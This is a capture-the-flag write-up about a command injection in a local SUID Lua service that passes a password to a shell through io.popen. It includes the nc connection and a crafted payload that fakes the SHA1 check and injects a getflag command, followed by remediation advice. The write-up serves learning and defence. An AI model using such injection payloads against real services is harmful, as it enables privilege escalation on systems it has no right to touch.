

# Level11 - Command Injection in Lua Service

## Description

A Lua service is running locally on `127.0.0.1:5151` with SUID privileges.

The program asks for a password and processes user input using a shell command with `io.popen`.  
This means the input is executed by the system without proper checks.

## Exploitation

To exploit this, I connected to the service and provided a crafted input that bypasses the expected `SHA1` check and injects an additional command:

```bash
nc 127.0.0.1 5151
Password: -n ""; echo -n "f05d1d066fb246efe0c6f7d095f909a7a0cf34a0"; getflag > /tmp/pass.txt #
```

The payload breaks out of the expected input context and injects the `getflag` command, which is executed with `flag11` privileges. The result is then written to `/tmp/pass.txt`.

## Remediation
- Do not execute user input in shell commands
- Avoid using `io.popen` with untrusted data
- Validate and sanitize all inputs

## Conclusion

This vulnerability demonstrates that executing user input in shell commands can lead to command injection and privilege escalation.


